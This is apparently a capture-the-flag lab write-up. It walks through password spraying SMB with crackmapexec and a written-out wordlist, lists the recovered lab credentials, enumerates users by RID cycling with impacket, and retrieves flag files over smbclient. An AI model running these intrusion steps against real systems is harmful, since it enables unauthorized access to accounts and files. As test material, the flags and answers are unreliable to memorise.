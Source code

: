 ```bash
cat > workstation_passwords.txt << EOF
Password1
Password123
Password123!
Welcome1
admin123
dev123
help123
temp
Backup2020!
Debug123!
EOF

# Perform password spray
crackmapexec smb 192.168.1.124 -u workstation_users.txt -p workstation_passwords.txt --continue-on-success
```

**Valid Credentials Discovered**:
- jsmith:Welcome1
- mjones:Password1
- developer:dev123
- helpdesk:help123
- tempuser:temp
- svc_backup:Backup2020!
- debuguser:Debug123!
- localadmin:admin123 (Local Admin!)

### FLAG 002: Hidden User Account (20 points)
**Discovery Method**: RID cycling with valid credentials
```bash
# Use discovered credentials for RID cycling
impacket-lookupsid jsmith:Welcome1@192.168.1.124

# Scan through output for RID 1078
# You'll find: 1078: DESKTOP-TEI5A1Q\FLAG{RAICHU62619281} (SidTypeUser)
```

---

## Phase 3: File System Exploration

### Establish SMB Connection
```bash
# List available shares
smbclient -L //192.168.1.124 -U jsmith%Welcome1
```

### FLAG 006: WiFi Password File (10 points)
**Location**: Public Documents folder
```bash
# Connect to Users share
smbclient //192.168.1.124/Users -U jsmith%Welcome1

# Navigate and retrieve file
smb: \> cd Public\Documents
smb: \> ls
smb: \> get wifi.txt
smb: \> !cat wifi.txt
# Output: Flag: FLAG{PIDGEOT09053920}
smb: \> quit
```
